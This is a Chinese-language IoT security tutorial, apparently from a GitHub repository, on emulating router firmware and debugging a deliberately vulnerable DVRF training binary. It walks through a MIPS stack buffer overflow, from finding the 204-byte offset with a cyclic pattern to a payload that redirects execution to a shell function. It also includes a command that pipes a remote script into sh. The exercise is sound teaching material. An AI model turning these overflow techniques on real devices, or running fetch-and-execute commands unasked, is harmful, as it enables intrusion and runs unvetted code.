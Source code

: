 # 动态分析 IoT 固件

动态分析固件之前，需要先把固件运行起来，但我们手头又没有路由器、摄像头之类的物联网硬件，该如何运行呢？这就需要虚拟执行，虚拟执行你就把它想象成一个虚拟机可以运行各种物联网OS就是了。虚拟执行IoT固件需要用到firmadyne工具，该工具很难安装，在kali上安装一直报错，你们可以尝试下，反正我是放弃了，最终还是乖乖地用attifyti提供的物联网渗透专用虚拟机，下载下来的文件直接用vmware导入就行了。
https://www.dropbox.com/sh/xrfzyp1ex2uii53/AAAF0mdA1qFaEBDYZoIxaQRma?dl=0
![1](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/1.png)

该系统为ubuntu14，密码为password@123，下面我们来演示虚拟执行一个dlink固件。
![2](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/2.png)

在tools/fat路径下运行fat.py，输入固件路径DWP2360b-firmware-v206-rc018.bin，然后是固件的品牌dlink，依次输入数据库密码firmadyne和用户密码password@123。
```
python fat.py
```
![3](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/3.png)

脚本执行成功后，会回显一个IP地址，这个IP就是模拟的固件地址。
![4](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/4.png)

以上只是简单地演示如何虚拟执行一个固件，下面我们就来实操如何通过动态调试分析一个固件，接下来的固件采用DVRF，这是个网友自制的充满漏洞的固件，供学习用的。
```
git clone https://github.com/praetorian-code/DVRF.git
```

开始之前，安装以下工具，动态调试中会用到。
```
sudo apt install gdb-multiarch
wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
sudo pip3 install capstone unicorn keystone-engine
```
安装keystone-engine时可能会报错，参考这个链接。
https://github.com/avatartwo/avatar2/issues/23

安装好工具后，就开始对固件进行分析啦，固件路径如下。
DVRF/Firmware/DVRF_v03.bin
使用binwalk提取固件文件系统。
```
binwalk -t -e DVRF_v03.bin
```
![5](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/5.png)

提取出来的系统有个文件夹pwnable，这个文件夹就是存放着有漏洞的程序示例，我们选取缓冲区漏洞程序stack_bof_01进行实验。首先使用readelf命令查看该程序的架构。
```
readelf -h pwnable/Intro/stack_bof_01
```
![6](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/6.png)

拷贝qemu-mipsel-static到当前目录，然后配合chroot虚拟执行stack_bof_01固件，可以成功执行。qemu是一款轻型的虚拟机。
```
cp $(which qemu-mipsel-static) .
sudo chroot . ./qemu-mipsel-static ./pwnable/Intro/stack_bof_01
```
![7](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/7.png)

查看stack_bof_01的源码，可以发现明显的strcpy内存溢出漏洞，当参数argv[1]超过200时，就会出现buf溢出的现象。
```
cat DVRF/Pwnable Source/Intro/stack_bof_01.c
```
![8](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/8.png)

以调试的方式启动stack_bof_01，在本地的1234端口监听调试。
```
sudo chroot . ./qemu-mipsel-static -g 1234 ./pwnable/Intro/stack_bof_01
```
![9](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/9.png)

运行以下命令开始调试。
```
gdb-multiarch pwnable/Intro/stack_bof_01
```
gdb运行后，会自动加载gef插件，然后设置固件架构为mips。
```
set architecture mips
```
设置完远程调试的IP和端口，就可开始调试stack_bof_01程序了。
```
target remote 127.0.0.1:1234
```
![10](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/10.png)

调用命令查看样本的所有函数，可以看到各个函数的地址。
```
info functions
```
![11](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/11.png)

如果你感兴趣，可以使用命令查反汇编看下main函数的汇编码，这是mips架构的汇编码，跟x86的相差很大，完全看不懂。。
```
disass main
```

![12](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/12.png)

然后我们使用命令创建一个随机的300字节流，作为攻击字符串，用于测试参数溢出的点。
```
pattern create 300
```
![13](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/13.png)


重新带参数调试stack_bof_01。
```
sudo chroot . ./qemu-mipsel-static -g 1234 ./pwnable/Intro/stack_bof_01 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
```
![14](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/14.png)

gdb挂上去后，输入c回车让程序跑起来，会发现程序崩溃了，SIGSEGV内存出错，指针ra指向0x63616162，对应的ASCII是”baac”。

![15](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/15.png)


使用命令查看该溢出点在攻击字符串的什么位置，是位于pattern的第204位。
```
pattern search 0x63616162
```
![15](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/15.png)
然后反汇编dat_shell函数，查看其函数地址，我们的目的是要让程序本来执行0x63616162，变成执行dat_shell的地址，理论上应该把0x63616162改成0x400950，但书上说要略过前3条gp相关的指令，我也不知道为啥，有兴趣的同学google下吧。
```
disass dat_shell
```
![16](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/16.png)

将待执行的函数地址拼凑到204个字节后面，便可劫持程序执行流到dat_shell函数（0x40095C）,从而实现缓冲区溢出攻击。
```
sudo chroot . ./qemu-mipsel-static ./pwnable/Intro/stack_bof_01 "$(python -c "print 'A'*204 + '\x5c\x09\x40'")"
```
![17](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/17.png)

最后，试了下0x400950确实不行，会报错。
```
sudo chroot . ./qemu-mipsel-static ./pwnable/Intro/stack_bof_01 "$(python -c "print 'A'*204 + '\x50\x09\x40'")"
```
![18](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/18.png)
